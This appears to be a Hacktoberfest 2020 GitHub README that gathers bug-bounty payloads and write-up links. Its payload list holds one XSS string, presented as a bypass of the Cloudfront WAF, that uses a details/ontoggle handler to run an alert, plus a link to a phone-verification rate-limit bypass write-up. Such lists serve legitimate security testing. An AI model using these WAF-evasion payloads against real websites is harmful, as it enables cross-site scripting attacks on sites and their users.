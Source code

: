 <center><img src="https://hacktoberfest.digitalocean.com/assets/h-dark-d1a5f262f5aa5936d3bc526365938d98f3946e669f6e2cd9ae1e7a848c57e351.svg" alt="drawing" width="200"/></center>

# Hacktoberfest 2020

Hacktoberfest® is open to everyone in our global community. Whether you’re a developer, student learning to code, event host, or company of any size, you can help drive growth of open source and make positive contributions to an ever-growing community. All backgrounds and skill levels are encouraged to complete the challenge.

- Hacktoberfest is a celebration open to everyone in our global community.
- Pull requests can be made in any GitHub-hosted repositories/projects.
- You can sign up anytime between October 1 and October 31.
## Let's contribute the easy way

For this time I will try to fill in the repo with a payload related to Bug Hunting, you can add it to participate in the Hacktoberfest 2020 event and also make it easier for other Bug Hunters to handle problems such as payloads being blocked by WAF and others by adding your payload or bugbounty writeup in a new line with the format shown below.

## Payload List
##### XSS Bypass Cloudfront WAF By Noobsec
```html
x"><--<img src= "><details/open/ontoggle=alert(`mindbl0w@bugcrodninja.com`)>> --!>=
```
---

## Writeup List
##### No Rate Limiting to Bypass Phone Verification
- [Rate Limit ~ Graylife](https://graylife.co/2019/infosec/perfectmoney-bug-bounty-otp-bypass-170)
---
## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)
